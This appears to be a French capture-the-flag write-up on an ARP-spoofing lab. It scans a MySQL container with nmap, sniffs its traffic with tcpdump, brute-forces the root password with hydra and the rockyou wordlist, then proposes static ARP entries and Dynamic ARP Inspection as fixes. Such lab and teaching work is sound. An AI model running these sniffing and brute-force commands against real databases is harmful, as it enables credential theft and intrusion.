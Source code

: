 ``` # ip a
Nous allons scanner la machine db afin de voir quelles services tournent.

```
# nmap 172.18.0.4
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 15:29 UTC
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000037s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

On voit donc que c'est une base de données mysql avec le port 3306 d'ouvert.

Nous allons maintenant utiliser tcpdump pour voir les données qui transitent sur notre réseau, en précisant bien qu'on ne veut que voir les paquets venant ou partant vers le port 3306.

```
# apt install dsniff tcpdump -y

# tcpdump -A port 3306


first part of the flag: l1tter4lly_4_c4ptur3_th3_fl4g
```

Nous voyons donc la première partie du flag dans un des paquets.

Nous allons ensuite télécharger une liste des mots de passe les plus fréquemment utilisés afin de brute force le mot de passe de la DB.

``` 
#wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

#apt install hydra -y

#hydra -l root -P rockyou.txt 172.18.0.4 mysql

[3306][mysql] host: 172.18.0.4   login: root   password: heyheyhey```

Nous trouvons donc comme mot de passe de db heyheyhey.

Le flag final est donc: l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey

🌞 Proposer une configuration pour empêcher votre attaque

Il y a plusieurs remédiations que nous pouvons mettre en place.

D'abord, afin d'empêcher le MITM, nous pouvons mettre en place des entrées ARP statiques, ainsi qu'un Dynamic ARP Inspection qui évalue la validité de chaque paquet ARP.
